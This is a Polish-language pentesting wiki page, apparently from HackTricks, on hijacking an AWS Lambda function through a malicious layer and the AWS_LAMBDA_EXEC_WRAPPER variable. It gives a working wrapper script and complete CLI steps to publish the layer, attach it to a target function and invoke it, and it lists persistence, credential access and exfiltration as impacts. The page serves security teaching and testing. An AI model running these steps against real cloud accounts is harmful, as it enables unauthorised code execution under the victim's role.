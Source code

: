 # AWS - Lambda Exec Wrapper Layer Hijack (Pre-Handler RCE)

{{#include ../../../../banners/hacktricks-training.md}}

## Podsumowanie

Wykorzystaj zmienną środowiskową `AWS_LAMBDA_EXEC_WRAPPER`, aby uruchomić kontrolowany przez atakującego skrypt wrappera przed startem runtime/handlera. Dostarcz wrapper przez Lambda Layer pod ścieżką `/opt/bin/htwrap`, ustaw `AWS_LAMBDA_EXEC_WRAPPER=/opt/bin/htwrap`, a następnie wywołaj funkcję. Wrapper działa wewnątrz procesu runtime funkcji, dziedziczy role wykonawcze funkcji i na końcu wykonuje `exec` rzeczywisty runtime, dzięki czemu oryginalny handler nadal wykonuje się normalnie.

> [!WARNING]
> Ta technika daje możliwość wykonania kodu w docelowym Lambda bez modyfikowania jego kodu źródłowego ani roli oraz bez potrzeby posiadania `iam:PassRole`. Wystarczy możliwość zaktualizowania konfiguracji funkcji oraz opublikowania/dołączenia layera.

## Wymagane uprawnienia (atakujący)

- `lambda:UpdateFunctionConfiguration`
- `lambda:GetFunctionConfiguration`
- `lambda:InvokeFunction` (lub wywołać przez istniejące zdarzenie)
- `lambda:ListFunctions`, `lambda:ListLayers`
- `lambda:PublishLayerVersion` (to samo konto) oraz opcjonalnie `lambda:AddLayerVersionPermission` jeśli używasz cross-account/public layer

## Skrypt wrappera

Umieść wrapper w `/opt/bin/htwrap` w layerze. Może wykonywać logikę przed handlerem i musi kończyć się `exec "$@"`, aby przekazać kontrolę do rzeczywistego runtime.
```bash
#!/bin/bash
set -euo pipefail
# Pre-handler actions (runs in runtime process context)
echo "[ht] exec-wrapper pre-exec: uid=$(id -u) gid=$(id -g) fn=$AWS_LAMBDA_FUNCTION_NAME region=$AWS_REGION"
python3 - <<'PY'
import boto3, json, os
try:
ident = boto3.client('sts').get_caller_identity()
print('[ht] sts identity:', json.dumps(ident))
except Exception as e:
print('[ht] sts error:', e)
PY
# Chain to the real runtime
exec "$@"
```
## Kroki ataku (CLI)

<details>
<summary>Opublikuj layer, dołącz do docelowej funkcji, ustaw wrapper, wywołaj</summary>
```bash
# Vars
REGION=us-east-1
TARGET_FN=<target-lambda-name>

# 1) Package wrapper at /opt/bin/htwrap
mkdir -p layer/bin
cat > layer/bin/htwrap <<'WRAP'
#!/bin/bash
set -euo pipefail
echo "[ht] exec-wrapper pre-exec: uid=$(id -u) gid=$(id -g) fn=$AWS_LAMBDA_FUNCTION_NAME region=$AWS_REGION"
python3 - <<'PY'
import boto3, json
print('[ht] sts identity:', __import__('json').dumps(__import__('boto3').client('sts').get_caller_identity()))
PY
exec "$@"
WRAP
chmod +x layer/bin/htwrap
(zip -qr htwrap-layer.zip layer)

# 2) Publish the layer
LAYER_ARN=$(aws lambda publish-layer-version \
--layer-name ht-exec-wrapper \
--zip-file fileb://htwrap-layer.zip \
--compatible-runtimes python3.11 python3.10 python3.9 nodejs20.x nodejs18.x java21 java17 dotnet8 \
--query LayerVersionArn --output text --region "$REGION")

echo "$LAYER_ARN"

# 3) Attach the layer and set AWS_LAMBDA_EXEC_WRAPPER
aws lambda update-function-configuration \
--function-name "$TARGET_FN" \
--layers "$LAYER_ARN" \
--environment "Variables={AWS_LAMBDA_EXEC_WRAPPER=/opt/bin/htwrap}" \
--region "$REGION"

# Wait for update to finish
until [ "$(aws lambda get-function-configuration --function-name "$TARGET_FN" --query LastUpdateStatus --output text --region "$REGION")" = "Successful" ]; do sleep 2; done

# 4) Invoke and verify via CloudWatch Logs
aws lambda invoke --function-name "$TARGET_FN" /tmp/out.json --region "$REGION" >/dev/null
aws logs filter-log-events --log-group-name "/aws/lambda/$TARGET_FN" --limit 50 --region "$REGION" --query 'events[].message' --output text
```
</details>

## Wpływ

- Wykonanie kodu przed handlerem w kontekście środowiska uruchomieniowego Lambda, wykorzystując istniejącą rolę wykonawczą funkcji.
- Nie wymaga zmian w kodzie funkcji ani roli; działa w popularnych zarządzanych środowiskach uruchomieniowych (Python, Node.js, Java, .NET).
- Umożliwia persistence, dostęp do poświadczeń (np. STS), eksfiltrację danych oraz manipulację środowiskiem uruchomieniowym przed uruchomieniem handlera.

{{#include ../../../../banners/hacktricks-training.md}}
